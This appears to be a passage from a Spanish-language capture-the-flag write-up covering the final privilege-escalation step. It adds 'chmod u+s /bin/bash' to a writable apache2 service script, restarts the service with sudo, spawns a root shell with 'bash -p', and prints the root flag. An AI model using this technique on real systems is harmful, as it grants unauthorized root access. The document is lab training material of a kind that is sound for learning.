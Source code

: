 Vemos que podemos editar el archivo de configuracion de `apache2` por lo que haremos lo siguiente.

```shell
nano apache2

#Dentro del nano
#!/bin/bash
chmod u+s /bin/bash
#RESTO DEL CODIGO
```

Lo guardamos y ahora haremos lo siguiente para que se ejecute como `root`.

```shell
sudo service apache2 restart
```

Una vez hecho esto, veremos si ha funcionado.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31 10:41 /bin/bash
```

Por lo que vemos funciono, asi que haremos lo siguiente.

```shell
bash -p
```

Y con esto ya seremos `root`, por lo que leeremos la flag.

> root.txt

```
e180269a01be15fc0b889bd34fd93c5c
```

